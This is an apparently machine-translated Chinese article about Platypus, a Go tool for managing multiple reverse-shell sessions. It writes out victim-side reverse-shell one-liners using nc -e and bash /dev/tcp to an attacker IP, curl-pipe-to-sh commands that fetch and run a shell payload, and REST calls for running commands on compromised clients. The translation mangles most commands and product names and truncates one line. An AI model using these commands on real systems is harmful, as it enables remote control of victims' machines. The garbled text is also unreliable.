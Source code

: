 # Platypus:一个用 Go 编写的现代多重反向 Shell 会话管理器

> 原文：<https://kalilinuxtutorials.com/platypus-multiple-reverse-shell/>

Platypus 是一个现代的多重反向 shell 会话/客户端管理器，通过终端使用 go 编写。它包括以下内容

*   多服务监听端口
*   多个客户端连接
*   RESTful API
*   反向外壳即服务

**也可阅读-[w12 scan:一个简单的网络安全资产发现引擎](https://kalilinuxtutorials.com/w12scan-discovery-engine-cybersecurity/)**

**网络拓扑**

攻击 IP: 192.168.1.2
反壳服务:0.0.0:8080
RESTful 服务:127.0.0.1:9090
受害 IP: 192.168.1.3

**从源代码运行鸭嘴兽**

去拿 github.com/WangYihang/Platypus
CD go/src/github . com/王一航/鸭嘴兽
去跑鸭嘴兽. go

**从发布的二进制文件中运行鸭嘴兽**

//从 https://github.com/WangYihang/Platypus/releases
chmod+x ./Platypus _ Linux _ amd64
下载二进制。/鸭嘴兽 _linux_amd64

**受害方**

NC-e/bin/bash 192 . 168 . 1 . 2 8080
bash-c ' bash-I>/dev/TCP/192 . 168 . 1 . 2/8080 0>

**反向外壳即服务**

// Platypus 能够复用反向外壳监听端口
//端口 8080 可以接收反向外壳客户端连接
//同样这些也是作为服务在此端口上运行的反向外壳

//受害者将被重定向到攻击者-主机攻击者-端口
//sh-c " $(curl http://host:port/attack-host/attack-port)"
curl http://192 . 168 . 1 . 2:8080/attack . com/1337
bash 它将使用主机，端口作为攻击者-主机攻击者-端口
//sh-c " $(curl http://host:port/)"
curl http://192 . 168 . 1 . 2:8080/
curl http://192 . 168 . 1 . 2:8080/192 . 168 . 1 . 2/8080 | sh
sh-c " $(curl http://host:port/)"

**RESTful API**

GET /client 列出所有在线客户端

curl ' http://127 . 0 . 0 . 1:9090/client
{
" msg ":[
" 192 . 168 . 1 . 3:54798 "
，
" status ":true
}
POST/client/:hash 在特定客户端上执行命令
curl-X POST ' http://127 . 0 . 0 . 1:900

**如何哈希？**

echo-n " 192 . 168 . 1 . 3:54798 " | MD 5 sum
0723 C3 bed 0d 0240140 e 10 a6 ffd 36 eed 4-

**截图**

*   ![](img/8063ee4da2da84b34f9ff2b7b7f58458.png)
*   ![](img/04a3a70e412c0c4ed619ccf306fd0cbb.png)

[**Download**](https://github.com/WangYihang/Platypus)